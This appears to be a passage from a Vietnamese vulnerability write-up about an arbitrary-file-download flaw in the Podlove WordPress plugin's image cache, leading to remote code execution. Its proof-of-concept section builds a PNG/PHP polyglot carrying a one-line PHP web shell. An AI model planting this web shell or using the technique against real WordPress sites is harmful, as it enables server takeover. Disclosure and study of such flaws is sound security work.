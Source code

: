 ```php {title="images.php - v4.2.6" data-open=true hl_lines=[3,6,8,9,14]}

    return get_query_var($var_name);
}
```

Hàm `podlove_handle_cache_files()` nhận tham số `podlove_image_cache_url` từ GET request, sau đó giải mã bằng `hex2str()` để chuyển từ định dạng hex sang chuỗi.
=> Tham số `podlove_image_cache_url` phải được truyền dưới dạng mã hex.

Tiếp theo, hàm khởi tạo đối tượng **Image** nhằm tạo đường dẫn lưu trữ trong cache và thực hiện tải file từ URL đã giải mã về máy chủ.
 
`podlove_handle_cache_files()` được đăng ký làm callback cho action hook

```php
add_action('wp', 'podlove_handle_cache_files');
``` 

Nghĩa là hàm sẽ được gọi trên mỗi lần WordPress xử lý request.

### Flow
{{< mermaid >}}
graph TD
A["Request with params (podlove_image_cache_url)"] --> B["podlove_handle_cache_files()"]
B --> C["hex2str() → $source_url → new Image(...)"]
C --> D["download_source() → download_url() → temporary file"]
D --> E["is_image() check"]
E -- pass --> F["move_as_original_file() → save to wp-content/cache/podlove/first_2_characters/remaining_characters/"]
F --> G["File accessible → possible RCE"]
E -- fail --> H["Delete temp file → stop"]
{{< /mermaid >}}

## Exploit

### Proof of Concept (PoC)

1. Thêm `<php>` tag vào file ảnh và đổi extension thành `.php`

```bash 
echo '<?php system($_REQUEST["cmd"]); ?>' >> rce.png
mv rce.png rce.php
```

```bash
❯ cat rce.php
�PNG
␦
IHD��Ud�tEXtSoftwaregnome-screenshot��>-tEXtCreation TimeSat 01 Nov 2025 02:58:29 PM +075����IDATH���A
� ��GHI��l��l�˅��K�n�D
�H)���a:kooܲ<`�u�o�
�{�3�9�1�~��      �9����P�1����R�!D>Lk���FT�r�|�Ru��	u��o'�`��?�!"��
2k���IEND�B`�<?php system($_REQUEST["cmd"]); ?>
```
